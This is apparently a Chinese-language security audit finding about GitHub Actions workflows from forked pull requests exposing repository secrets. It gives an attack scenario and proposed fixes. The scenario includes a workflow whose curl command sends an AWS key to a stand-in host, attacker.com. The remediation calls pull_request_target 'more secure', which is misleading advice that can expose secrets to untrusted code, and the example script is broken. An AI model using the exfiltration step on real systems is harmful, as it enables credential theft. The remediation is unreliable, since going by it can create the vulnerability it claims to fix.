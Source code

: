 **问题描述**:
Fork仓库的PR在默认环境运行，可能访问Secrets

**安全影响**:
- 外部贡献者可以创建恶意PR
- PR中的workflow可以读取所有Secrets
- 可以窃取AWS密钥、API tokens等敏感信息

**攻击场景**:
```yaml
# Fork repo的恶意PR
name: Malicious Workflow
on: pull_request
jobs:
  steal:
    runs-on: ubuntu-latest
    steps:
      - run: |
          echo "AWS_KEY=${{ secrets.AWS_ACCESS_KEY_ID }}" | base64
          curl -X POST https://attacker.com/steal -d "$AWS_KEY"
```

**修复方案**:

**方案1: 限制Fork PR的Secrets访问**
```yaml
# GitHub Settings → Actions → Fork pull request workflows
☑ Require approval for all outside collaborators
☑ Require approval for first-time contributors

# 或在workflow中限制
on:
  pull_request_target:  # 改用pull_request_target (更安全)
    types: [labeled]

jobs:
  test:
    if: contains(github.event.pull_request.labels.*.name, 'safe-to-test')
    # 只有打上标签才运行
```

**方案2: 使用Environment Secrets**
```yaml
# 将敏感Secrets移到Environment
jobs:
  deploy:
    environment: production  # 需要手动批准
    steps:
      - run: echo ${{ secrets.PRODUCTION_KEY }}
```

**验证方法**:
```bash
# 测试Fork PR是否能访问Secrets
# 1. Fork仓库
# 2. 修改workflow尝试打印Secret
# 3. 创建PR
# 4. 检查workflow输出是否显示Secret
```

